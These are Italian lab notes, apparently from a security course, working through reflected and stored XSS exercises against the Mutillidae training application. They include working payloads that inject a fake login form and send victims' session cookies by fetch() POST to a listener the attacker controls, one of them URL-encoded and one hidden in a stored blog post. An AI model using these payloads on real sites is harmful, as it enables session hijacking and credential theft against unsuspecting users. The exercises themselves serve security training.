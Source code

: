 ## Esercizio 1
Iniezione di un'immagine tramite input text disponibile sulla pagina.

Prima di tutto, come si fa a verificare che una pagina sia soggetta a XSS?
> provare ad inserire codice html oppure javascript. magari anche analizzare il codice sorgente.

Inserendo vari tag html, provando anche a inserire il tag `script` e a generare un alert, per capire se è possibile iniettare codice JavaScript.

```html
	<img src="http://upload.wikimedia.org/wikipedia/en/b/bc/Wiki.png" />
```


## Esercizio 2
Viene richiesto di inserire un form all'interno della pagina.

```html
<form>
	<h1>Prova form</h1>
	<input type="text" name="user" id="user" />
	<input type="button" name="login" value="Login" id="login" onclick="" />
</form>
```


## Esercizio 3
Intanto si richiede di prendere i cookie di sessione di un'utente.
```js
<script> 
alert(document.cookie);
	</script>
```

```js
fetch("http://192.168.1.33:8080/", {
    method: 'POST',
    headers: {
        'Accept': 'application/json',
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({ "name": "<script>document.cookie</script>" })
}).then(response => response.json()).then(response => console.log(JSON.stringify(response)))


```

OPPURE, più semplicemente:
```js
<script>
fetch("http://192.168.1.33:8080", {
  method: "POST",
  mode: "no-cors",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded"
  },
  body: "cookie=" + document.cookie
});
</script>
```

==ATTENZIONE : il problema potrebbe stare sul fatto che quella pagina, user-info, è iniettabile ma devi far attenzione ai parametri:

Provare prima con : `<script>alert(1)</script>` e controllare l'url per vedere dove viene iniettato lo script.

infatti si inietta in `http://192.168.122.182/mutillidae/index.php?page=user-info.php&username=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&password=&user-info-php-submit-button=View+Account+Details`

Se togli il resto, lo script non funziona, FAI ATTENZIONE.
Dopodichè, basta encodare uno degli script di sopra e inserirlo in quella posizione:

```js
http://192.168.122.182/mutillidae/index.php?page=user-info.php&username=%3Cscript%3E%0Afetch%28%22http%3A%2F%2F127.0.0.1%3A8080%22%2C%20%7B%0A%20%20method%3A%20%22POST%22%2C%0A%20%20mode%3A%20%22no-cors%22%2C%0A%20%20headers%3A%20%7B%0A%20%20%20%20%22Content-Type%22%3A%20%22application%2Fx-www-form-urlencoded%22%0A%20%20%7D%2C%0A%20%20body%3A%20%22cookie%3D%22%20%2B%20document.cookie%0A%7D%29%3B%0A%3C%2Fscript%3E&password=&user-info-php-submit-button=View+Account+Details
```

Infine, eseguire il server tramite : `python3 server.py 8080`



## Esercizio 2 XSS - STORED
Per questa tipologia di esercizi si può fare riferimento alla pagina (A3 - Cross Site Scripting (XSS) -> Persistent (Second Ordert) -> Add to our blog).

Come primo passo occorre valutare se la pagina è effettivamente soggetta a vulnerabilità di tipo XSS Injection di tipo persistente

### Esercizio 2.1 
Caricare un'immagine
```js
<img src="https://cdn.pixabay.com/photo/2024/10/02/18/24/leaf-9091894_960_720.jpg" />
```

### Esercizio 2.2
Inserire un `form`.

```js
<form id="injectedform">
	<br><br><HR><H3>This feature requires account login:</H3 >
	<br><br>Enter Username:<br>
	<input type="text" id="user" name="user">
	<br>Enter Password:<br>
	<input type="password" name = "pass">
	<br><input type="button" name="login" value="login" onclick="hack()" />
</form>
<br><br><HR>
```


### Esercizio 3
Stessa logica dell'esercizio 3 del reflected. Mandare una richiesta con i cookie
```js
Ciao
<script>
fetch("http://192.168.1.33:8080", {
  method: "POST",
  mode: "no-cors",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded"
  },
  body: "cookie=" + document.cookie
});
</script>
```

Notare che script non appare, però solo la scritta ciao. in realtà, appena qualcuno si collega, a me arrivano i cookie.

